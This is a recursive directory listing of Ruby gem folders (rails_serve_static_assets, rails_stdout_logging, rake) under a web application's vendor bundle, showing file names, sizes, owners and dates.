drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  205 Sep 16  2016 application_controller.rb
-rw-r--r-- 1 rails rails  221 Sep 16  2016 authenticated_controller.rb
-rw-r--r-- 1 rails rails   80 Sep 16  2016 pages_controller.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/helpers:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   29 Sep 16  2016 application_helper.rb
-rw-r--r-- 1 rails rails   31 Sep 16  2016 authenticated_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/views:
total 20K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 authenticated
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 layouts
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 pages

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/views/authenticated:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    4 Sep 16  2016 index.html.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/views/layouts:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  198 Sep 16  2016 application.html.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/app/views/pages:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    5 Sep 16  2016 index.html.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/config:
total 40K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 application.rb
-rw-r--r-- 1 rails rails  235 Sep 16  2016 boot.rb
-rw-r--r-- 1 rails rails  476 Sep 16  2016 database.yml
-rw-r--r-- 1 rails rails  149 Sep 16  2016 environment.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 environments
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 initializers
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 locales
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 routes.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/config/environments:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  935 Sep 16  2016 development.rb
-rw-r--r-- 1 rails rails  889 Sep 16  2016 production.rb
-rw-r--r-- 1 rails rails   34 Sep 16  2016 test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/config/initializers:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  404 Sep 16  2016 backtrace_silencers.rb
-rw-r--r-- 1 rails rails  376 Sep 16  2016 inflections.rb
-rw-r--r-- 1 rails rails  205 Sep 16  2016 mime_types.rb
-rw-r--r-- 1 rails rails  496 Sep 16  2016 secret_token.rb
-rw-r--r-- 1 rails rails  410 Sep 16  2016 session_store.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/config/locales:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.9K Sep 16  2016 devise.en.yml
-rw-r--r-- 1 rails rails  290 Sep 16  2016 en.yml
-rw-r--r-- 1 rails rails  288 Sep 16  2016 es.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/db:
total 8.0K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 test.sqlite3

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/public:
total 24K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  728 Sep 16  2016 404.html
-rw-r--r-- 1 rails rails  711 Sep 16  2016 422.html
-rw-r--r-- 1 rails rails  728 Sep 16  2016 500.html
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 assets
-rw-r--r-- 1 rails rails    0 Sep 16  2016 favicon.ico

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/public/assets:
total 652K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  543 Sep 16  2016 application-5f55f638b632759d9c9113417c3ac6bd.css
-rw-r--r-- 1 rails rails  333 Sep 16  2016 application-5f55f638b632759d9c9113417c3ac6bd.css.gz
-rw-r--r-- 1 rails rails   18 Sep 16  2016 application-89f8f774b6fb6783dfccc79d4103f256.js
-rw-r--r-- 1 rails rails   38 Sep 16  2016 application-89f8f774b6fb6783dfccc79d4103f256.js.gz
-rw-r--r-- 1 rails rails  746 Sep 16  2016 manifest-7bf37a2cd54094ac4d4308b706454b81.json
-rw-r--r-- 1 rails rails 622K Sep 16  2016 schneems-cb0905b917bde936182e153558f54a5f.png

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_serve_static_assets-0.0.4/test/rails_app/script:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  295 Sep 16  2016 rails

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4:
total 56K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  341 Sep 16  2016 Appraisals
-rw-r--r--  1 rails rails  318 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails  184 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails  242 Sep 16  2016 init.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails  925 Sep 16  2016 rails_stdout_logging.gemspec
-rw-r--r--  1 rails rails  521 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 3.9K Sep 16  2016 README.md
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  638 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/gemfiles:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  304 Sep 16  2016 rails_3.0.x.gemfile
-rw-r--r-- 1 rails rails  304 Sep 16  2016 rails_3.1.x.gemfile
-rw-r--r-- 1 rails rails  304 Sep 16  2016 rails_3.2.x.gemfile
-rw-r--r-- 1 rails rails  304 Sep 16  2016 rails_4.0.x.gemfile
-rw-r--r-- 1 rails rails  304 Sep 16  2016 rails_4.1.x.gemfile
-rw-r--r-- 1 rails rails  304 Sep 16  2016 rails_4.2.x.gemfile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails_stdout_logging
-rw-r--r-- 1 rails rails   97 Sep 16  2016 rails_stdout_logging.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/lib/rails_stdout_logging:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 rails2.rb
-rw-r--r-- 1 rails rails  211 Sep 16  2016 rails3.rb
-rw-r--r-- 1 rails rails  641 Sep 16  2016 rails.rb
-rw-r--r-- 1 rails rails  182 Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails   50 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test:
total 28K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 dummy
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 integration
-rw-r--r-- 1 rails rails  470 Sep 16  2016 rails_stdout_logging_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 support
-rw-r--r-- 1 rails rails  849 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy:
total 32K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 app
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 config
-rw-r--r-- 1 rails rails  155 Sep 16  2016 config.ru
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 public
-rw-r--r-- 1 rails rails  265 Sep 16  2016 Rakefile
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 script

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/app:
total 20K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 controllers
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 helpers
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 views

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/app/controllers:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   80 Sep 16  2016 application_controller.rb
-rw-r--r-- 1 rails rails  351 Sep 16  2016 bar_controller.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/app/helpers:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   29 Sep 16  2016 application_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/app/views:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 bar

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/app/views/bar:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    5 Sep 16  2016 index.html.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/config:
total 40K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 application.rb
-rw-r--r-- 1 rails rails  235 Sep 16  2016 boot.rb
-rw-r--r-- 1 rails rails  473 Sep 16  2016 database.yml
-rw-r--r-- 1 rails rails  149 Sep 16  2016 environment.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 environments
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 initializers
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 locales
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 routes.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/config/environments:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  985 Sep 16  2016 development.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 production.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/config/initializers:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  404 Sep 16  2016 backtrace_silencers.rb
-rw-r--r-- 1 rails rails  376 Sep 16  2016 inflections.rb
-rw-r--r-- 1 rails rails  205 Sep 16  2016 mime_types.rb
-rw-r--r-- 1 rails rails  496 Sep 16  2016 secret_token.rb
-rw-r--r-- 1 rails rails  410 Sep 16  2016 session_store.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/config/locales:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  290 Sep 16  2016 en.yml
-rw-r--r-- 1 rails rails  288 Sep 16  2016 es.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/public:
total 28K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  728 Sep 16  2016 404.html
-rw-r--r-- 1 rails rails  711 Sep 16  2016 422.html
-rw-r--r-- 1 rails rails  728 Sep 16  2016 500.html
-rw-r--r-- 1 rails rails    0 Sep 16  2016 favicon.ico
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 javascripts
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 stylesheets

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/public/javascripts:
total 288K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  148 Sep 16  2016 application.js
-rw-r--r-- 1 rails rails  34K Sep 16  2016 controls.js
-rw-r--r-- 1 rails rails  31K Sep 16  2016 dragdrop.js
-rw-r--r-- 1 rails rails  38K Sep 16  2016 effects.js
-rw-r--r-- 1 rails rails 159K Sep 16  2016 prototype.js
-rw-r--r-- 1 rails rails 6.7K Sep 16  2016 rails.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/public/stylesheets:
total 8.0K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .gitkeep

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/dummy/script:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  295 Sep 16  2016 rails

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/integration:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  338 Sep 16  2016 controller_logging_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rails_stdout_logging-0.0.4/test/support:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  186 Sep 16  2016 integration_case.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2:
total 92K
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  115 Sep 16  2016 .autotest
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 CONTRIBUTING.rdoc
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 doc
-rw-r--r--  1 rails rails    0 Sep 16  2016 .gemtest
-rw-r--r--  1 rails rails  22K Sep 16  2016 History.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 4.4K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 Rakefile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 rakelib
-rw-r--r--  1 rails rails 4.4K Sep 16  2016 README.rdoc
-rw-r--r--  1 rails rails  338 Sep 16  2016 .rubocop.yml
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  153 Sep 16  2016 .togglerc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 1.3K Sep 16  2016 rake

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/doc:
total 84K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 command_line_usage.rdoc
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 example
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 glossary.rdoc
-rw-r--r-- 1 rails rails  12K Sep 16  2016 jamis.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 proto_rake.rdoc
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 rake.1
-rw-r--r-- 1 rails rails  22K Sep 16  2016 rakefile.rdoc
-rw-r--r-- 1 rails rails 6.1K Sep 16  2016 rational.rdoc
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 release_notes

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/doc/example:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   65 Sep 16  2016 a.c
-rw-r--r-- 1 rails rails   65 Sep 16  2016 b.c
-rw-r--r-- 1 rails rails  103 Sep 16  2016 main.c
-rw-r--r-- 1 rails rails  670 Sep 16  2016 Rakefile1
-rw-r--r-- 1 rails rails  599 Sep 16  2016 Rakefile2

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/doc/release_notes:
total 148K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  709 Sep 16  2016 rake-0.4.14.rdoc
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 rake-0.4.15.rdoc
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 rake-0.5.0.rdoc
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 rake-0.5.3.rdoc
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 rake-0.5.4.rdoc
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 rake-0.6.0.rdoc
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 rake-0.7.0.rdoc
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 rake-0.7.1.rdoc
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 rake-0.7.2.rdoc
-rwxr-xr-x 1 rails rails 1.3K Sep 16  2016 rake-0.7.3.rdoc
-rw-r--r-- 1 rails rails 3.9K Sep 16  2016 rake-0.8.0.rdoc
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 rake-0.8.2.rdoc
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 rake-0.8.3.rdoc
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 rake-0.8.4.rdoc
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 rake-0.8.5.rdoc
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 rake-0.8.6.rdoc
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 rake-0.8.7.rdoc
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 rake-0.9.0.rdoc
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 rake-0.9.1.rdoc
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 rake-0.9.2.2.rdoc
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 rake-0.9.2.rdoc
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 rake-0.9.3.rdoc
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 rake-0.9.4.rdoc
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 rake-0.9.5.rdoc
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 rake-0.9.6.rdoc
-rw-r--r-- 1 rails rails 6.0K Sep 16  2016 rake-10.0.0.rdoc
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 rake-10.0.1.rdoc
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 rake-10.0.2.rdoc
-rw-r--r-- 1 rails rails 6.4K Sep 16  2016 rake-10.0.3.rdoc
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 rake-10.1.0.rdoc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 rake
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 rake.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/lib/rake:
total 268K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 alt_system.rb
-rw-r--r-- 1 rails rails  24K Sep 16  2016 application.rb
-rw-r--r-- 1 rails rails  868 Sep 16  2016 backtrace.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 clean.rb
-rw-r--r-- 1 rails rails  418 Sep 16  2016 cloneable.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 contrib
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 cpu_counter.rb
-rw-r--r-- 1 rails rails  235 Sep 16  2016 default_loader.rb
-rw-r--r-- 1 rails rails 5.7K Sep 16  2016 dsl_definition.rb
-rw-r--r-- 1 rails rails  340 Sep 16  2016 early_time.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 ext
-rw-r--r-- 1 rails rails  670 Sep 16  2016 file_creation_task.rb
-rw-r--r-- 1 rails rails  13K Sep 16  2016 file_list.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 file_task.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 file_utils_ext.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 file_utils.rb
-rw-r--r-- 1 rails rails  144 Sep 16  2016 gempackagetask.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 invocation_chain.rb
-rw-r--r-- 1 rails rails  431 Sep 16  2016 invocation_exception_mixin.rb
-rw-r--r-- 1 rails rails  265 Sep 16  2016 late_time.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 linked_list.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 loaders
-rw-r--r-- 1 rails rails  315 Sep 16  2016 multi_task.rb
-rw-r--r-- 1 rails rails  673 Sep 16  2016 name_space.rb
-rw-r--r-- 1 rails rails 5.3K Sep 16  2016 packagetask.rb
-rw-r--r-- 1 rails rails   53 Sep 16  2016 pathmap.rb
-rw-r--r-- 1 rails rails  351 Sep 16  2016 phony.rb
-rw-r--r-- 1 rails rails  364 Sep 16  2016 private_reader.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 promise.rb
-rw-r--r-- 1 rails rails  375 Sep 16  2016 pseudo_status.rb
-rw-r--r-- 1 rails rails  770 Sep 16  2016 rake_module.rb
-rw-r--r-- 1 rails rails  341 Sep 16  2016 rake_test_loader.rb
-rw-r--r-- 1 rails rails  153 Sep 16  2016 rdoctask.rb
-rw-r--r-- 1 rails rails  897 Sep 16  2016 ruby182_test_unit_fix.rb
-rw-r--r-- 1 rails rails  353 Sep 16  2016 rule_recursion_overflow_error.rb
-rw-r--r-- 1 rails rails  594 Sep 16  2016 runtest.rb
-rw-r--r-- 1 rails rails  882 Sep 16  2016 scope.rb
-rw-r--r-- 1 rails rails  119 Sep 16  2016 task_argument_error.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 task_arguments.rb
-rw-r--r-- 1 rails rails  618 Sep 16  2016 tasklib.rb
-rw-r--r-- 1 rails rails 8.9K Sep 16  2016 task_manager.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 task.rb
-rw-r--r-- 1 rails rails 5.6K Sep 16  2016 testtask.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 thread_history_display.rb
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 thread_pool.rb
-rw-r--r-- 1 rails rails  543 Sep 16  2016 trace_output.rb
-rw-r--r-- 1 rails rails  156 Sep 16  2016 version.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 win32.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/lib/rake/contrib:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  351 Sep 16  2016 compositepublisher.rb
-rw-r--r-- 1 rails rails    1 Sep 16  2016 .document
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 ftptools.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 publisher.rb
-rw-r--r-- 1 rails rails  343 Sep 16  2016 rubyforgepublisher.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 sshpublisher.rb
-rw-r--r-- 1 rails rails  129 Sep 16  2016 sys.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/lib/rake/ext:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  638 Sep 16  2016 core.rb
-rw-r--r-- 1 rails rails   27 Sep 16  2016 module.rb
-rw-r--r-- 1 rails rails  647 Sep 16  2016 pathname.rb
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 string.rb
-rw-r--r-- 1 rails rails  367 Sep 16  2016 time.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/lib/rake/loaders:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  914 Sep 16  2016 makefile.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/rakelib:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  427 Sep 16  2016 publish.rake
-rw-r--r-- 1 rails rails  607 Sep 16  2016 test_times.rake

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/test:
total 296K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  811 Sep 16  2016 file_creation.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 helper.rb
